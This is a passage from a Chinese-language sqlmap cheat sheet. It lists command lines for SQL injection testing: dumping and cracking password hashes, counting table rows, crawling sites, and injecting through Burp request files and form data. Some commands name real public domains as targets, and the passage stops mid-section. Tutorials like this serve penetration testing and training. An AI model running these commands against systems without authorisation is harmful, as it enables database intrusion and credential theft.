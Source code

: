 ### 2. URL重写SQL注入测试

value1为测试参数，加“*”即可，sqlmap将会测试value1的位置是否可注入。

sqlmap.py -u"[http://targeturl/param1/value1](http://targeturl/param1/value1)*/param2/value2/"

### 3. 列举并破解密码哈希值

  当前用户有权限读取包含用户密码的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

sqlmap.py -u"[http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1](http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1)" --passwords -v1

### 4. 获取表中的数据个数

sqlmap.py -u"[http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1](http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1)" --count -Dtestdb

### 5.对网站secbang.com进行漏洞爬去

sqlmap.py -u "[http://www.secbang.com](http://www.secbang.com)"--batch --crawl=3

### 6.基于布尔SQL注入预估时间

sqlmap.py -u "[http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1](http://192.168.136.131/sqlmap/oracle/get_int_bool.php?id=1)"-b --eta

### 7.使用hex避免字符编码导致数据丢失

sqlmap.py -u "[http://192.168.48.130/pgsql/get_int.php?id=1](http://192.168.48.130/pgsql/get_int.php?id=1)" --banner --hex -v 3 --parse-errors

### 8.模拟测试手机环境站点

python sqlmap.py -u"[http://www.target.com/vuln.php?id=1](http://www.target.com/vuln.php?id=1)" --mobile

### 9.智能判断测试

sqlmap.py -u "[http://www.antian365.com/info.php?id=1](http://www.antian365.com/info.php?id=1)"--batch --smart

### 10.结合burpsuite进行注入

（1）burpsuite抓包，需要设置burpsuite记录请求日志

sqlmap.py -r burpsuite抓包.txt

（2）指定表单注入

sqlmap.py -u URL --data“username=a&password=a”

### 11.sqlmap自动填写表单注入

自动填写表单：
